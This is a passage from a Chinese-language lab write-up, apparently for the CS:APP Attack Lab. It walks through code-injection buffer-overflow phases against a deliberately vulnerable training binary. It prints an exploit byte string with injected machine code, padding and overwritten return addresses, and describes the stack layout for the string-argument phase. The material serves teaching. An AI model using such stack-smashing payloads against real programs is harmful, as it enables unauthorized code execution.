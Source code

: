 

3. 将touch2的地址放到rsp中，以便实现第二次return到touch2

   这里有一点很重要，即在第一次retq后，发生弹栈，因此rsp自动加8了

   栈中布局如下

![](https://cdn.jsdelivr.net/gh/G-ghy/cloudImages@master/202202030025387.png)

```
48 c7 c7 fa 97 b9 59 c3 //待执行指令
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 //第一次retq的地址，指向上述待执行指令
ec 17 40 00 00 00 00 00 //第二次retq的地址，即touch2的地址
```

## Level_3

看似与Level_2一样，实则有两点不同

1. 读入由数据变为字符串

   数字直接放在寄存器中就可以了

   字符串传参实际传递的是一个地址，存放字符串开始的位置

   要做的有两件事情

   1. 要把cookie的值改为16进制

      `0x59b997fa` 的16进制表示：`35 39 62 39 39 37 66 61 00`(没有0x，最后添加'\n'结束符(对应16进制的00))

   2. 要为这段字符串找个存储的位置

2. 涉及到的函数由1个(touch2)变为2个(touch3 和 hexmatch)

前期的操作流程与Level_2是一样的

同样需要向寄存器中存储值，只不过存储的值由cookie的数值变为存储这个数值对应16进制的地址

与touch2相比，把第二次retq取址位置存储的值由touch2函数地址改为touch3函数地址

把mov指令的cookie.txt的数值改为一个地址

```assembly
mov $0x59b997fa,%rdi #将参数cookie.txt的值放入寄存器中
retq
```

![](https://cdn.jsdelivr.net/gh/G-ghy/cloudImages@master/202202030025387.png)

区别中的第2点是多了一个函数，这个函数中开辟了一个110字节的空间

必须保证cookie的16进制存放的位置不处在这110字节当中，防止数值被干扰

一种想法是向栈底方向存放，另一种想法是向栈顶方向存放
